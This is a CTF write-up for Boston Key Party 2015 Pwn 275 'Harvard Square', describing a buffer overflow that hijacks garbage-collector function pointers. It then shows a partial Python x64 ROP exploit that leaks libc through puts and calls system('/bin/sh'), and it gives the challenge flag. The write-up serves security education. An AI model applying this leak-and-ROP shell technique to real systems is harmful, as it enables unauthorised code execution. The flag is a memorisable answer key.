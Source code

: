title: Boston Key Party CTF 2015 Pwn 275 Harvard Square 
date: 2015-03-02 1:50
category: pwn
tags: OtherCTF, bof
slug: bktctf_pwn_275_harvard_square

This problem was worth 275 pts, but I thought it is easier than other red problems. XD  
We could reverse it happily beacuse the programe wasn't stipped.  
* * *

The problem is a game about transcation of 0days.  
We could enter the password and cheated the game, but it's useless. XD  
After executing the binary, the game printed the message:  

>Welcome to 0day Warz - The goal of the game is to get the $100M USD by the end of the game. You have been given a loan of $2000, with some high interest rate of 25% a day!  

The program for the goal of game:  
```
void play_game() {
    ...
    if (owed == 0.0) {
        if (money > 9999999)
      action_hiscore();
    }
  ...
}
void action_hiscore() {
    char buf[268];
  ....
  read(0, buf, 0x400);
  ...
}
```

However, if understood the game rule, we could know the condition is impossible to reach.  
So we must find another vulunerbility.  
In fact, there is a bof when `play_game()` starting.  
It couldn't overflow the return address, but we could use it to change function pointers. :D  

The programe use [simple-gc](https://github.com/dhamidi/simple-gc/).  
It will create two garbage-collectors and put function pointer `exploit_free` and `string_free` to gc.  
Then, gc will trigger when we do `sleep` action.  
We could overwrite function ptr to `action_hiscore`, and we could overwrite the return address.  

We could write the exploit until now.  
Honestly, I am not familar with x64 architecture exploit.  
I wasted a lot of time to debug my code. :(  

By the way, args on x64 is in register.  
```
arg1 => rdi
arg2 => rsi
arg3 => rdx
arg4 => r8
...
```

So we must find some gadget to control arguments at first.  
Then, we could use `put()` to leak arbitrary address.  
There exist a little bug.... stdout dupped to socket.  
We won't receive the content immediately.  
To solve this bug, I returned to `action_hiscore()` again because there is `fflush()` at the end of function.  

After leaked the address, we could calulate the address of `system()`.  
Next, We needed a string of "/bin/sh".  
Luckily, we could find it in libc, too. XD  
So we couldn execute `system("/bin/sh")` to get the shell.  

My partitial exploit:  
```
# leak address
raw_input("wait gdb")
read_until("name? ")
pop_rdi = up64("402fc3")
got = up64("605061")
put = up64("400cd0")
payload = "a"*280 + pop_rdi + got + put + bof
send_line(payload)
read_until("...-'\"\n")
read_until("!\n")

# get leak and count libc
leak = read_line().strip()[::-1].encode("hex")
base = int(leak+"00", 16) - 0x54400
system = hex(base + 0x46640)[2:]
system = up64(system)
binsh = hex(base + 0x17d87b)[2:]

# get and shell out
read_until("name? ")
buf = up64("605800")
payload = "a"*280 + pop_rdi + up64(binsh) + system
send_line(payload)
read_until("!\n")

t.interact()
```

flag: `stay_in_school_and_dont_do_the_grugq`  
